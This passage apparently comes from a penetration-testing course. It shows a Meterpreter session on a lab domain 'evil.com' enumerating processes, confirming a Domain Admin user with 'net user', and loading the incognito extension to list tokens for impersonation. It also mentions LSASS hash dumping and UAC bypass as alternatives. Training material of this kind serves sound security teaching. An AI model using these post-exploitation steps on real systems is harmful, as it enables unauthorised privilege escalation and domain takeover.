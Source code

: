 ```
 932   632   explorer.exe               x64   1        EVIL\paul                     C:\Windows\explorer.exe
 956   564   svchost.exe                x64   0        NT AUTHORITY\NETWORK SERVICE  
 968   564   svchost.exe                x64   0        NT AUTHORITY\SYSTEM
...
```

> Listing 50 - Listing all processes reveals the user paul

This seems very promising, since our SYSTEM integrity access to file01 will allow us to easily hijack any of this user's sessions.

We can use the simple native net user command to determine this user's access level.

```
meterpreter > shell
Process 5328 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> net user paul /domain
net user paul /domain
The request will be processed at a domain controller for domain evil.com.

User name                    paul
Full Name                    Paul
...
Local Group Memberships      
Global Group memberships     *Domain Admins        *Domain Users         
The command completed successfully.
```

> Listing 51 - Enumerating group memberships for paul

We find that _paul_ is a member of the Domain Admins group, which means our complete compromise of evil.com is close at hand.

One way to gain access to the enticing domain administrator rights would be to dump the NTLM hash of _paul_ from LSASS, but that means disabling LSA protection again.

There are easier ways. One option is to simply migrate into a process owned by _paul_, but if we land in a medium-integrity process, we will have to perform a UAC bypass to regain high-privileged access and it will place us under the effect of AppLocker policies.

Alternatively, we could locate access tokens for _paul_ in memory and impersonate them. This will allow us to perform actions in the context of _paul_ while still enjoying the privileges of a SYSTEM shell. We'll take this approach.

The _incognito_ Meterpreter extension is ideal for this and as SYSTEM, we can view any tokens on the machine as shown in Listing 52.

```
meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > list_tokens -u

Delegation Tokens Available
========================================
EVIL\paul
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1

```